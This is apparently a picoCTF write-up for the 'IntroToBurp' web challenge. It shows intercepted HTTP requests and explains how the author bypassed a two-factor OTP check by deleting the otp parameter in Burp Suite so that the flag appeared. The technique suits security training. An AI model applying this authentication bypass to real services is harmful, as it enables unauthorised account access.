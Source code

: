 # IntroToBurp - Web

## Description

Try [here]() to find the flag

#### Hints:

- Try using burpsuite to intercept request to capture the flag.
- Try mangling the request, maybe their server-side code doesn't handle
  malformed requests very well.

## Solution

The link we are given (http://titan.picoctf.net:\<port\>/) opens up into a registration portal as shown below...

![image](./page1.png)

There's not much to go on, so I filled up random details and clicked `Register`. I was redirected to another page (http://titan.picoctf.net:\<port\>/dashboard) as below...

![image](./2fa.png)

I entered a random OTP and I was denied access and given the message "Invalid OTP".

Let's go behind-the-scenes and use BurpSuite (as indicated by the challenge title). The first POST request when I input random details into the registration portal looks like the following...

```
POST / HTTP/1.1
Host: titan.picoctf.net:52409
Content-Length: 174
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://titan.picoctf.net:52409
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://titan.picoctf.net:52409/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: session=eyJjc3JmX3Rva2VuIjoiZjEzN2ZmZGRhYmQyZjQ1ZTZiM2JlYTE1YjAyYWFjNTczODJlNTIxYiJ9.ZmcxRQ.-PaKW24lZP-9yjhIxw0wDo7T848
Connection: close

csrf_token=ImYxMzdmZmRkYWJkMmY0NWU2YjNiZWExNWIwMmFhYzU3MzgyZTUyMWIi.ZmcxRQ.-mT53nyEAi_R5bQ_OvLlolJt7qs&full_name=a&username=a&phone_number=1&city=a&password=a&submit=Register
```

And the second POST request when I enter the OTP looks like the following...

```
POST /dashboard HTTP/1.1
Host: titan.picoctf.net:52409
Content-Length: 5
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://titan.picoctf.net:52409
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://titan.picoctf.net:52409/dashboard
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: session=.eJw9jM0KwyAQhN_Fcw9Ra1L6MrKru6Q0UfGHUErfvXsIgTnMfMPMV4VX_6inAnVToVX2Pb8pCWBtF-YYAaPhu6MZLRJoh5MBCG6xD0POaJQdj23zCXY6f3Iv4sw0iyQWaO3INZ5tWXMin8aOVAVpQaNRvfa_PxQlLMI.ZmcyDw.uBlg68tr_nWzHzcZF-k5YbKw7rw
Connection: close

otp=1
```

The first request looks like it requires a `csrf_token` to be submitted so I can't manipulate that. But the second request could be manipulated. I opened up the registration page again and filled up random details until I reached the OTP page. Next I switched on Intercept in the Proxy mode of BurpSuite, then tried to submit a random OTP. I was redirected to the POST request intercepted and I removed the lines `otp=1` and submited the request given below. The result revealed the flag.

```
POST /dashboard HTTP/1.1
Host: titan.picoctf.net:50088
Content-Length: 0
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://titan.picoctf.net:50088
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://titan.picoctf.net:50088/dashboard
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: session=.eJw9jM0KwyAQhN_Fcw8a3ZX0ZcSflZYmKmoIpfTdu4fQ28w3fPMR8Tnf4i68uIk4enazvqgwSAqM0cmqlEMGXNFKjwRrtAEUykUvQXqjkb18bJsrfqfrp87GyUhABVybH-OsPV1re9RCrhx7oM5IMToG9b___QF88CtY.Zmc0LQ.PvrXMHbJubJGUC3v-IdIHRu9ca8
Connection: close
```

![image](./result.png)
